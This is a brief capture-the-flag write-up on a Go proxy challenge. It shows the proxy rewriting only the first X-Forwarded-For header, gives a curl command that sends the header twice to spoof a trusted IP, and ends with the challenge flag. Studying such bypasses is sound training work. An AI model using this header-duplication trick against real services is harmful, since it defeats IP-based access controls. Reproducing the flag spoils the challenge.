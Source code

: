 Similar to the beginners version, but this time there's a proxy server up front, which I think prunes the `X-forwarded-for` header trick that worked for the first one, based on this code fragment:

```go

	for i, v := range headers {
		if strings.ToLower(v[0]) == "x-forwarded-for" {
			headers[i][1] = fmt.Sprintf("%s, %s", v[1], clientIP)
			break
		}
	}
```

However, in the "secret server", by itself, that old exploit could still work if we somehow shoved it past the proxy:
```go
	http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
		xff := r.Header.Values("X-Forwarded-For")

		ip := strings.Split(r.RemoteAddr, ":")[0]

		if xff != nil {
			ips := strings.Split(xff[len(xff)-1], ", ")
			ip = ips[len(ips)-1]
			ip = strings.TrimSpace(ip)
		}

		// 1337 hax0rz 0nly!
		if ip != "31.33.33.7" {
			message := fmt.Sprintf("untrusted IP: %s", ip)
			http.Error(w, message, http.StatusForbidden)
			return
		} else {
			w.Write([]byte(os.Getenv("FLAG")))
		}
```

Now I'm not entirely sure how this works, but I was able to get the flag by `curl` request and passing the same `X-Forwarded-for` header **twice**, like so:
`curl -H "X-forwarded-for: aksldksaj" -H "X-forwarded-for: 31.33.33.7" http://actually.proxed.duc.tf:30009`
And this gave back the flag

I believe this works because the "pruning" code mentioned above only prunes the first instance of this header, due to the subsequent `break` statement.

Flag: `DUCTF{y0ur_c0d3_15_n07_b3773r_7h4n_7h3_574nd4rd_l1b}`

